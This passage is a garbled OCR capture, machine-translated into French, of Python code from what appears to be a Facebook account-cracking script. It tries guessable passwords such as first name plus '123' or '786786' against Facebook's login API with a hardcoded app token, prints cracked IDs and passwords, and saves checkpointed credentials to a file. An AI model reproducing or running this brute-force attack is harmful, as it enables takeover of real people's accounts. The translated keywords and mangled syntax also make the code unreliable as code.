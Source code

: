 				               cek.write ("ID:" + utilisateur + "Pw:" + pass2 + "\ n")
				               cek.close ()
				               cekpoint.append (utilisateur + pass2)								
				           autre:											
					       pass3 = b ['nom_nom'] + '123'										
					       data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email_FR =" & user_FR " ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")										
					       q = json.load (données)										
					       si 'access_token' dans q:	
						       x = requests.get ("https://graph.facebook.com/" + utilisateur + "? access_token =" + q ['access_token'])
				                       z = json.loads (x.text)
						       imprimer '\ x1b [1; 94m [✓] \ x1b [1; 92mHack100% 💉' '								
						       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mNom \ x1b [1; 91m ✯ \ x1b [1; 92m' + b ['nom']									
						       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mID \ x1b [1; 91m ✯ \ x1b [1; 92m' + utilisateur							
						       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mMot de passe \ x1b [1; 91m✯ \ x1b [1; 92m' + passe3 + '\ n'									
						       oks.append (utilisateur + pass3)
                                               autre:
			                               si 'www.facebook.com' dans q ["error_msg"]:
				                           imprimer '\ x1b [1; 94m [❥] \ x1b [1; 94mPoint de contrôle' '
				                           print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mNom \ x1b [1; 94m ✯ \ x1b [1; 95m' + b ['nom']
				                           print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mID \ x1b [1; 94m ✯ \ x1b [1; 95m' + utilisateur
				                           print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mMot de passe \ x1b [1; 94m✯ \ x1b [1; 95m' + passe3 + '\ n'
				                           cek = open ("out / super_cp.txt", "a")
				                           cek.write ("ID:" + utilisateur + "Pw:" + pass3 + "\ n")
				                           cek.close ()
				                           cekpoint.append (utilisateur + pass3)							      
					               autre:										
						           pass4 = b ['first_name'] + '123'											
			                                   data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email_FR =" & mot_de_personnel = " ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                   q = json.load (données)												
			                                   si 'access_token' dans q:		
						                   x = requests.get ("https://graph.facebook.com/" + utilisateur + "? access_token =" + q ['access_token'])
				                                   z = json.loads (x.text)
				                                   imprimer '\ x1b [1; 94m [✓] \ x1b [1; 92mHack100% 💉' '											
				                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mNom \ x1b [1; 91m ✯ \ x1b [1; 92m' + b ['nom']											
				                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mID \ x1b [1; 91m ✯ \ x1b [1; 92m' + utilisateur											
				                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mMot de passe \ x1b [1; 91m✯ \ x1b [1; 92m' + passe4 + '\ n'											
				                                   oks.append (utilisateur + pass4)
                                                           autre:
			                                           si 'www.facebook.com' dans q ["error_msg"]:
				                                       imprimer '\ x1b [1; 94m [❥] \ x1b [1; 94mPoint de contrôle' '
				                                       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mNom \ x1b [1; 94m ✯ \ x1b [1; 95m' + b ['nom']
				                                       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mID \ x1b [1; 94m ✯ \ x1b [1; 95m' + utilisateur
				                                       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mMot de passe \ x1b [1; 94m✯ \ x1b [1; 95m' + passe4 + '\ n'
				                                       cek = open ("out / super_cp.txt", "a")
				                                       cek.write ("ID:" + utilisateur + "Pw:" + pass4 + "\ n")
				                                       cek.close ()
				                                       cekpoint.append (utilisateur + pass4)					
					                           autre:									
						                       pass5 = '786786'							
						                       data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email_FR =" & utilisateur + mot de passe = 5 " ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")								
						                       q = json.load (données)								